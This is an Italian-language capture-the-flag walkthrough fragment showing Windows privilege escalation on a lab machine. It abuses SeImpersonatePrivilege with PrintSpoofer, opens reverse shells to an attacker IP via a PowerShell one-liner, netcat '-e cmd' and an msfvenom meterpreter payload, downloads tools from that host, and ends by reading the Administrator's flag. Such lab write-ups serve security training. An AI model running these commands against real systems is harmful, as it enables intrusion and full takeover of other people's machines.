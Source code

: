 ```
Invoke-PowerShellTcp -Reverse -IPAddress 10.11.116.149 -Port 1212
```
se non funziona provare quest'altro metodo
- - -
Eseguendo `whoami /priv`possiamo vedere che abbiamo abilitato **SeImpersonatePrivilege**
Trasferisci [nc64.exe](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) e [PrintSpoofer32.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe) sul computer di destinazione
```
wget https://github.com/sec-fortress/Exploits/blob/main/nc64.exe
```

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
```

```
Invoke-WebRequest http://10.11.116.149:8080/nc64.exe -outfile nc64.exe
```

```
Invoke-WebRequest http://10.11.116.149:8080/PrintSpoofer32.exe -outfile PrintSpoofer32.exe
```
 ed esegui il comando seguente; assicurati inoltre di avviare il listener prima di eseguire questa operazione.
```
sudo nc -lvnp 443
```

```
.\PrintSpoofer32.exe -c "c:\temp\nc64.exe 10.11.116.149 443 -e cmd"
```
Se ci sono problemi con netcat provare con payload msfvenom!

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.116.149 LPORT=443 -f exe -o payload.exe
```

```
Invoke-WebRequest http://10.11.116.149:8080/payload.exe -outfile payload.exe
```

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp set
LHOST 10.11.116.149
set LPORT 443
exploit
```

```
.\PrintSpoofer32.exe -c "c:\temp\payload.exe 10.11.116.149 443 -e cmd"
```

```
 Directory of c:\Users\Administrator\Desktop

12/08/2019  08:06 PM    <DIR>          .
12/08/2019  08:06 PM    <DIR>          ..
12/08/2019  08:08 PM                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30,388,301,824 bytes free

c:\Users\Administrator\Desktop>type root.txt.txt 
type root.txt.txt
795xxxxxxxxxxxxxxxxx
c:\Users\Administrator\Desktop>

```


